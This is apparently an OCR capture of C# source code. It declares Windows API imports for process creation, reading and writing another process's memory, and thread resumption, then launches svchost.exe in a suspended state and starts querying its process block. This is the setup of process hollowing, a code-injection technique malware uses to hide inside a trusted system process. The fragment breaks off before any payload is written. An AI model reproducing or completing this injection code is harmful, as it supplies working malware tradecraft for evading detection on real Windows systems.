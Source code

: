 ```csharp
        internal struct PROCESS_INFORMATION
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public int dwProcessId;
            public int dwThreadId;
        }

        [DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Auto)]
        static extern bool CreateProcess(
          string lpApplicationName,
          string lpCommandLine,
          IntPtr lpProcessAttributes,
          IntPtr lpThreadAttributes,
          bool bInheritHandles,
          uint dwCreationFlags,
          IntPtr lpEnvironment,
          string lpCurrentDirectory,
          [In] ref STARTUPINFO lpStartupInfo,
          out PROCESS_INFORMATION lpProcessInformation);

        private struct PROCESS_BASIC_INFORMATION
        {
            public IntPtr ExitStatus;
            public IntPtr PebBaseAddress;
            public UIntPtr AffinityMask;
            public int BasePriority;
            public UIntPtr UniqueProcessId;
            public UIntPtr InheritedFromUniqueProcessId;
        }

        [DllImport("ntdll.dll", SetLastError = true)]
        static extern UInt32 ZwQueryInformationProcess(
        IntPtr hProcess,
        int procInformationClass,
        ref PROCESS_BASIC_INFORMATION procInformation,
        UInt32 ProcInfoLen,
        ref UInt32 retlen);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool ReadProcessMemory(
           IntPtr hProcess,
           IntPtr lpBaseAddress,
           byte[] lpBuffer,
           Int32 nSize,
           out IntPtr lpNumberOfBytesRead);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern uint ResumeThread(IntPtr hThread);

        static void Main(string[] args)
        {
            STARTUPINFO si = new STARTUPINFO();
            PROCESS_INFORMATION pi = new PROCESS_INFORMATION();

            bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero, IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);
            PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
            uint tmp = 0;
```